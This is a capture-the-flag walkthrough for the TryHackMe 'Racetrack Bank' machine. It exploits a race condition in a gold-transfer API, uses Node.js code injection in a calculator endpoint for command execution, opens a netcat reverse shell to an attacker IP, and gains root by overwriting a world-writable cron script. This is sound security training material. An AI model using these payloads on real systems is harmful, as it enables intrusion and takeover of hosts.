








## TryHackMe Room - [Racetrack Bank](https://tryhackme.com/room/racetrackbank)

It's time for another heist. Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

## Enumeration

### Nmap Scan

Starting with a comprehensive nmap scan to identify open ports and services:

```bash
nmap -p- -vv <TARGET_IP> -sV
```

**Results:**
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have SSH and HTTP services running. Since we don't have credentials, let's explore the web application on port 80.

### Web Application Discovery

Visiting the root page reveals a banking-style web application called "Racetrack Bank". The application mentions it's experiencing some slowness in servers, which could hint at potential race condition vulnerabilities.

The application provides:
- Account creation (`/create.html`)
- Login functionality (`/login.html`)
- Dashboard (`/home.html`)
- Purchase page (`/purchase.html`)
- Gold transfer functionality (`/giving.html`)

### Directory Enumeration

Let's use `ffuf` to enumerate additional files and directories:

```bash
ffuf -u http://<TARGET_IP>/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 800 -e .js,.html,.bak,.php,.txt -fs 0
```

**Interesting Results:**
```
                        [Status: 200, Size: 1542, Words: 514, Lines: 43]
create.html             [Status: 200, Size: 1973, Words: 620, Lines: 59]
home.html               [Status: 302, Size: 33, Words: 4, Lines: 1]
login.html              [Status: 200, Size: 1815, Words: 602, Lines: 55]
purchase.html           [Status: 302, Size: 33, Words: 4, Lines: 1]
```

The application uses Express.js (indicated by `X-Powered-By: Express` header) and appears to be a Node.js application.

## Initial Access

### Account Creation

Let's create a test account to explore the application:

```
Username: test
Password: test
```

After successful account creation and login, we're redirected to `/home.html` which shows:

```
Gold: 1
Logged in as test
```

We start with only **1 gold**, but the Premium Account costs **10,000 gold**. This significant gap suggests we need to find a way to increase our gold balance.

### Race Condition in Gold Transfer

The `/giving.html` page allows users to transfer gold to other accounts. The endpoint `/api/givegold` accepts:
- `user`: Target username
- `amount`: Amount of gold to transfer

**Key Observation:** The server validates that:
- Amount must be positive
- User cannot transfer to themselves

However, there's **no transactional locking** mechanism, which creates a race condition vulnerability.

### Exploiting the Race Condition

Using **Burp Suite Repeater** with **Last Byte Sync**, we can send multiple parallel requests to exploit the race condition. The strategy:

1. Create two accounts (e.g., `test` and `test1`)
2. Transfer gold from `test` to `test1` in parallel requests
3. Due to lack of proper locking, the gold gets duplicated



By repeatedly sending synchronized parallel requests, we can exponentially increase the gold balance:



Eventually, we achieve a balance of **14,550+ gold**:



### Purchasing Premium Features

With sufficient gold, we can now purchase the Premium Account:

```http
POST /api/buypremium HTTP/1.1
Host: <TARGET_IP>
Cookie: connect.sid=<SESSION_COOKIE>
```

**Response:**
```
HTTP/1.1 302 Found
Location: /purchase.html?success=Success!
```

After purchasing, a new menu option appears: **Premium Features** (`/premiumfeatures.html`).

### Premium Calculator - Code Execution

The premium features include a calculator that evaluates mathematical expressions:

```http
POST /api/calculate HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/x-www-form-urlencoded

calculation=1+1
```

**Response:**
```
Location: /premiumfeatures.html?ans=2
```

The calculator returns the result in the URL parameter. Let's test if it's vulnerable to code injection by trying to access Node.js objects:

```http
POST /api/calculate HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/x-www-form-urlencoded

calculation=process.version
```

**Response:**
```
Location: /premiumfeatures.html?ans=v10.20.1
```

**Confirmed:** The input is being evaluated directly in a Node.js context! This is a **Remote Code Execution (RCE)** vulnerability.

### Remote Code Execution

Let's test command execution:

```http
POST /api/calculate HTTP/1.1
Host: <TARGET_IP>
Content-Type: application/x-www-form-urlencoded

calculation=require('child_process').execSync('id').toString()
```

**Response:**
```
Location: /premiumfeatures.html?ans=uid=1000(brian)%20gid=1000(brian)%20groups=1000(brian)
```

Perfect! We have RCE as user `brian`. Let's read `/etc/passwd` to confirm the user:

```http
calculation=require('child_process').execSync('cat /etc/passwd').toString()
```

We can see user `brian` exists with a home directory at `/home/brian`.

### Reverse Shell

Now let's establish a reverse shell. Start a netcat listener on the attacker machine:

```bash
rlwrap nc -lnvp 1337
```

Send the following payload:

```javascript
require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <YOUR_IP> 1337 >/tmp/f').toString()
```

**Reverse Shell Obtained:**
```
┌──(kali㉿kali)-[~/CTF/THM]
└─$ rlwrap nc -lnvp 1337   
listening on [any] 1337 ...
connect to [<YOUR_IP>] from (UNKNOWN) [<TARGET_IP>] 56214
sh: 0: can't access tty; job control turned off
$ ls
migrations
node_modules
package.json
package-lock.json
server
site
$ 
```



Let's stabilize the shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Stabilized Shell:**
```
brian@racetrack:~/website$ 
```

## User Flag

Let's read the user flag:

```bash
brian@racetrack:~$ cat user.txt
<REDACTED>
```



## Privilege Escalation

### SUID Binary Analysis

Let's check for SUID binaries that might be exploitable:

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Results:**
```
/home/brian/admin/manageaccounts
/bin/fusermount
/bin/mount
/bin/umount
/bin/su
/bin/ping
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/newuidmap
```

The `/home/brian/admin/manageaccounts` binary is interesting - it's a custom SUID binary. Let's examine it:

```bash
brian@racetrack:~$ cd admin
brian@racetrack:~/admin$ ls -la
total 28
drwxrwxr-x  3 root  root   4096 Apr 23  2020 .
drwxr-xr-x 11 brian brian  4096 Apr 23  2020 ..
drwxrwxr-x  2 root  root   4096 Apr 23  2020 accounts
-rwsr-sr-x  1 root  root  13272 Apr 23  2020 manageaccounts
```

The binary has both **setuid** and **setgid** bits set, meaning it runs as root. Let's analyze it:

```bash
file manageaccounts
```

**Output:**
```
manageaccounts: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=d5ed0e2c2d72ff6ac45e41e85444b76de6b3cdf3, not stripped
```

Let's extract strings to understand its functionality:

```bash
strings manageaccounts
```

**Key Strings Found:**
```
Usage: manageaccounts [logfile]
Available actions:
h: Show the help message again
Opening files:
f: open an account file
Once you have an account file opened you may run the following commands:
o: show opened account information
c: change account type (administrator/user)
d: request deletion of account
n: change note for account.
m: show account money.
w: write changes to disk.
q: quit the program
.account
That file does not end in .account!
```

The binary operates on `.account` files and has various restrictions. After analyzing the binary, it appears to be well-protected against common exploitation techniques (symlink protection, extension checks, etc.).



This appears to be a **rabbit hole** - the binary is not the intended privilege escalation vector.

### Cronjob Discovery

Let's check for cronjobs and scheduled tasks. Using tools like `pspy` or checking common cron directories:

```bash
brian@racetrack:~$ ls -la cleanup/
total 12
drwxr-xr-x  2 brian brian  4096 Apr 23  2020 .
drwxr-xr-x 11 brian brian  4096 Apr 23  2020 .
-rwxrwxrwx  1 root  root    171 Apr 23  2020 cleanupscript.sh
```

**Key Finding:** The `cleanupscript.sh` file is:
- **World-writable** (`-rwxrwxrwx`)
- Owned by **root**
- Located in `/home/brian/cleanup/`

This suggests it's executed by root via a cronjob, and we can modify it!



### Cronjob Privilege Escalation

Let's first backup the original script and then inject our payload:

```bash
cd /home/brian/cleanup
mv cleanupscript.sh cleanupscript.sh.backup
```

Now, let's create a malicious script that will copy the root flag to our home directory:

```bash
echo 'cat /root/root.txt > /home/brian/root_flag.txt' > cleanupscript.sh
chmod +x cleanupscript.sh
```

Wait approximately 1 minute for the cronjob to execute (cronjobs typically run at specific intervals).

## Root Flag

After the cronjob executes, let's check if our flag was written:

```bash
cat /home/brian/root_flag.txt
<REDACTED>
```



Challenge solved!

## References

1. https://github.com/DominicBreuker/pspy
2. https://www.hackingarticles.in/linux-privilege-escalation-using-cron-jobs/

---

## Answers

### Task 1 - Racetrack Bank

> It's time for another heist. Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

1. **What is the user flag?**

   **Ans.** `<REDACTED>`

2. **What is the root flag?**

   **Ans.** `<REDACTED>`
